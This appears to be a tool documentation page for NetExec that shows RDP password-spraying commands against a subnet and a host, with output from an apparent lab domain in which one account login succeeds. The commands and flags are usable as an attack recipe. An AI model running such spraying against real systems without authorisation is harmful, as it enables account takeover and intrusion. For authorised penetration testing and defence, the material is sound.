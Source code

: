 # Password Spraying

#### #~ poetry run NetExec rdp 192.168.1.0/24 -u user -p password

#### $ poetry run NetExec rdp 192.168.133.157 -u ron -p October2021

RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)

RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:October2021 
                                                                                                                                                                
#### $ poetry run NetExec rdp 192.168.133.157 -u rubeus -p October2021

RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)

RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!)

# Password Spraying (without bruteforce)

#### #~ poetry run NetExec rdp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce

### By default nxc will exit after a successful login is found. Using the --continue-on-success flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
